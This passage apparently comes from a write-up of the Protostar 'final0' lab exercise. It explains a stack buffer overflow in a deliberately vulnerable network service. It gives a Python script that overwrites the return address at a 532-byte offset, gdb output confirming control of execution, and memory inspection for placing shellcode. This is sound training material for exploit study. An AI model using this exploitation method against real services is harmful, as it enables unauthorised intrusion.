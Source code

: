 ```
 /* Wait for socket activity and return */
 fd = serve_forever(PORT);

 /* Set the client socket to STDIN, STDOUT, and STDERR */
 set_io(fd);

 username = get_username();

 printf("No such user %s\n", username);
}
```

This is a somewhat standard buffer overflow.  The buffer is 512 bytes long, but safe checks aren't done to make sure it doesn't go past that size.  I tried using the [Metasploit Framework's](http://www.metasploit.com) pattern_create.rb, however, due to the fact that the buffer is having a "toupper()" done on it, it won't find it.  I had to do it manually, by just splitting an array into "a" and "b" segments, and adjusting the sizes each time.  I found that the offset was at 532 bytes with the following code:

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

s.send("a"*532 + "b"*8)
```

When I ran it, I was able to verify that I was correct.

```
root@protostar:/home/user# ./532.py 
root@protostar:/home/user# gdb --quiet --core=/tmp/core.11.final0.14765 
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0x62626262 in ?? ()
```

Next, I had to inject shellcode into the buffer, and find the address to return to.

```
(gdb) x/10s $esp-550
0xbffffaaa:  ""
0xbffffaab:  ""
0xbffffaac:  "\211\005"
0xbffffaaf:  ""
0xbffffab0:  "\224\310\351\267\020ii\r", 'A' <repeats 192 times>...
0xbffffb78:  'A' <repeats 200 times>...
0xbffffc40:  'A' <repeats 120 times>
0xbffffcb9:  ""
0xbffffcba:  ""
0xbffffcbb:  ""
(gdb) x/10s 0xbffffab0+8
0xbffffab8:  'A' <repeats 200 times>...
0xbffffb80:  'A' <repeats 200 times>...
0xbffffc48:  'A' <repeats 112 times>
0xbffffcb9:  ""
0xbffffcba:  ""
0xbffffcbb:  ""
0xbffffcbc:  ""
0xbffffcbd:  "\002"
0xbffffcbf:  ""
0xbffffcc0:  'a' <repeats 12 times>, "bbbbbbbb"
```